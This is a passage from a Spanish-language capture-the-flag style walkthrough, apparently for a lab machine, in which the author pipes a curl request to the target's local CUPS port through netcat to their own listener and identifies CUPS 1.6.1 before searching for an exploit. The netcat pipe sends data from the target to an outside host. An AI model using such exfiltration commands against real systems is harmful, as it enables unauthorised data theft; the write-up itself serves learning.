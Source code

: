 Bien, como no creo que tengamos instalado la herramienta **html2text**, vamos a mandar la respuesta del **curl** a nuestra máquina mediante una **netcat** y el resultado lo guardamos en un archivo de texto/html (cualquiera de los dos, no importa cual sea).

Hagamoslo por pasos:

* Levanta una **netcat** y pon que el resultado se guarde en un archivo:
```bash
nc -nvlp 1234 > respuesta.html
listening on [any] 1234 ...
```

* Usa **curl** para mandar una petición al **localhost** por el **puerto 631** y aplica una pipe para que el resultado vaya a nuestra **netcat**:
```bash
curl localhost:631 | nc Tu_IP 1234
```

* Cierra la **netcat** que levantaste, ya deberías tener el archivo ahí:
```bash
nc -nvlp 1234 > respuesta.html
listening on [any] 1234 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.107] 57662
^C
ls
respuesta.html
```

* Usa **html2text** para ver el resultado:
```bash
cat respuesta.html | html2text
Input recoding failed due to invalid input sequence. Unconverted part of text follows.
�  Administration�  Classes�  Online Help  Jobs�  Printers�INPUT
                                                                               type]
****** CUPS 1.6.1 ******
CUPS is the standards-based, open source printing system developed by Apple_Inc. [CUPS]
for OS® X and other UNIX®-like operating systems.
***** CUPS for Users ***** ***** CUPS for Administrators ***** CUPS for Developers
Overview_of_CUPS           *****                         *****
Command-Line_Printing_and  Adding_Printers_and_Classes   Introduction_to_CUPS
Options                    Managing_Operation_Policies   Programming
What's_New_in_CUPS_1.6     Printer_Accounting_Basics     CUPS_API
User_Forum                 Server_Security               Filter_and_Backend_Programming
                           Using_Kerberos_Authentication HTTP_and_IPP_APIs
                           Using_Network_Printers        PPD_API
                           cupsd.conf_Reference          Raster_API
                           Find_Printer_Drivers          PPD_Compiler_Driver
                                                         Information_File_Reference
                                                         Developer_Forum
 
CUPS and the CUPS logo are trademarks of Apple_Inc. CUPS is copyright 2007-2012 Apple
Inc. All rights reserved.
```

Excelente, vemos que estan ocupando el servicio **CUPS versión 1.6.1**, busquemos un Exploit.
